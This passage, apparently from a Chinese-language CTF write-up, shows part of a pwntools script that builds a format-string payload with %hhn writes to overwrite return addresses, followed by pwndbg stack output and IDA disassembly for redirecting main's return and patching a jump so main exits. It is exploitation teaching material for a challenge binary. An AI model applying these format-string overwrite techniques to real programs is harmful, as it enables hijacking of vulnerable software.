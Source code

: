 ```python
    size = (gadget>>(8*i)) & 0xff
    size -= 27
    if(size > (written_size & 0xff)):
        payload += '%{0}c%{1}$hhn'.format(size-(written_size&0xff),offset+i)
        written_size += size - (written_size & 0xff)
    else:
        payload += '%{0}c%{1}$hhn'.format((0x100-(written_size&0xff))+size,offset+i)
        written_size += (0x100 - (written_size&0xff)) + size

payload=payload.ljust(0x80-13,'a')
for i in xrange(6):
    payload += p64(ret+i)

log.info(payload)
#pause()
add(payload)
irt()
```

## 修改返回地址与指令——main

有时候被`__libc_start_main+231`深深吸住了眼球，希望通过修改`main`函数的返回地址来完整滴控制程序的流程。不过相比起`leak`，修改`main`的返回地址要更麻烦些，因为`main`函数执行后是死循环，为了使函数返回还需要额外修改程序执行的指令。第一步与`leak`相同，获取返回地址信息并确定偏移：

```assembly
      0x7fff87e70c40 -> 0x6161616161616e68 ('hnaaaaaa')
      0x7fff87e70c48 -> 0x6161616161616161 ('aaaaaaaa')
      .....
      0x7fff87e70d08 -> 0x7f69f6c6db97 (__libc_start_main+231) <-target!
      
pwndbg> distance 0x7fff87e70d00(rbp) 0x7fff87e70d08
0x7fff87e70d00->0x7fff87e70d08 is 0x8 bytes
```

将`main`函数的返回地址修改完成后，还需要修改指令来使`main`函数强制退出，在`IDA`中该段反汇编如下：

```assembly
.text:0000000000001444                 mov     rdi, rax
.text:0000000000001447                 call    leak
.text:000000000000144C                 test    eax, eax
.text:000000000000144E                 jnz     short loc_145C   <- mod
.
.
.
.
.text:00000000000014AD                 mov     rcx, [rbp+var_8]
.text:00000000000014B1                 xor     rcx, fs:28h
.text:00000000000014BA                 jz      short locret_14C1
.text:00000000000014BC                 call    ___stack_chk_fail
.text:00000000000014C1 ; ---------------------------------------------------------------------------
.text:00000000000014C1
.text:00000000000014C1 locret_14C1:                            ; CODE XREF: main+152↑j
.text:00000000000014C1                 leave                   <- target
.text:00000000000014C2                 retn
```

